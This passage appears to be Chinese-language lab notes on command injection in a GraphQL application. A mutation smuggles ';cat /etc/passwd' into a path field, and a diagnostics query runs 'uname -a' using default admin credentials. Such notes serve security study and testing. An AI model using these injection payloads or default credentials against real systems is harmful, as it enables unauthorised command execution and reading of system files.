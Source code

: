 ## 命令执行 1

与 Owasp top10 中的 RCE 一样 我们可以通过`;`、`||`、`&&` 等方式进行命令拼接执行

```bash
mutation ImportPaste {
    importPaste(
        host: "pastebin.com"
        path: ";cat /etc/passwd"
    scheme: "https"
        port: 443
    ){
        result
    }
}
```

[![](assets/1708919658-f9682e1d8b7b4a7e2547c84c16003c78.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218222412737.png)

## 命令执行 2

```bash
query SystemDiagnostics {
    SystemDiagnostics(username: "admin",
        password: "changeme",cmd:"uname -a")
}
```

